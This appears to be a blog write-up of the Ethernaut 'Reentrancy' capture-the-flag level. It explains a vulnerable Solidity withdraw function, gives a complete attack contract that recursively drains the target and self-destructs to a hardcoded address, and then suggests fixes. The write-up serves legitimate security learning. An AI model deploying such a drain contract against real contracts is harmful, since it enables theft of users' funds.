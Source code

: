 ```yaml
---
title: Level 10 - Reentrancy
slug: level-10
published: 05-21-2023
lastEdited:
imgSrc: /images/ethernaut/ethernaut10.svg
---
```


## Objectives

1. Steal all of the funds of the contract.

## Vulnerabilities

### Reentrancy

The `withdraw` function has a **reentrancy** vulnerability. It changes the `msg.sender`'s balance only **after** sending the value which opens the door to
**reentrancy attacks**.

```solidity
  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }
```

## Exploit

1. Write and deploy a hack contract with your own _EOA_ as value for myAddress like the following:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import "./Reentrance.sol";

contract ReentranceHack {
    Reentrance target;

    address myAddress = 0xcC5065Fa8f55F6929E1fA52E1ee6911F12C54a7F;

    event Log(string, uint);

    constructor(address payable _targetAddress) public {
        target = Reentrance(_targetAddress);
    }

    function hack() external payable {
        target.donate{value: msg.value}(address(this));
        uint amount = target.balanceOf(address(this));
        target.withdraw(amount);
    }

    receive() external payable {
        emit Log("received ", msg.value);
        uint targetAmount = address(target).balance;
        uint myAmount = target.balanceOf(address(this));

        if(targetAmount > 0){
            target.withdraw(targetAmount <= myAmount ? targetAmount : myAmount);
        } else {
            selfdestruct(myAddress);
        }
    }
}
```

2. Call the `hack` function. If all goes as planned, the target contract should be empties and the hack contract should have selfdestruct.

## Suggested mitigation

1. First and foremost, modify `withdraw` function to follow the **checks effects interaction** patttern. In this context,

```solidity
function withdraw(uint _amount) public {
  // Checks
  require(balances[msg.sender] >= _amount, "Insufficient balance");

  //Effects
    balances[msg.sender] -= _amount;

  //Interactions
  (bool result,) = msg.sender.call{value:_amount}("");
  require(result, "Transfer failed");
}
```

2. Implement ReentrancyGuard by OpenZeppelin.

## Further reading

- The Checks Effect Interactions pattern. <ExternalLink href={"https://docs.soliditylang.org/en/develop/security-considerations.html#use-the-checks-effects-interactions-pattern"} />
- Reentrancy guard by OpenZeppelin <ExternalLink href={"https://docs.openzeppelin.com/contracts/2.x/api/utils#ReentrancyGuard"} />
